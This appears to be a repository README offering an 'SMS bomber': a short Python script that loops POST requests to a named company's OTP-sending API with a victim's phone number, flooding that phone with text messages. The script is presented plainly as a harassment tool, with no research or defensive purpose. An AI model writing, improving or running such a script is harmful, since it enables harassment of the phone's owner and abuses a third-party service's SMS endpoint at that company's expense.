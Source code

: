 # SMS-Bomber-Script
Normal Code for sms Bombing

# Code

```

import requests

number = int (input("Enter Your Number :"))

thre = int (input( " Enter Your TRe Number : "))

for i in range (thre) :

    response = requests.post( "https://api2.bongobd.com/api/login/send-otp",data={"operator":"all","msisdn":number})

    if response.status_code == 200 :
        print ("sms sent")

    else :
        print ("failed")


```

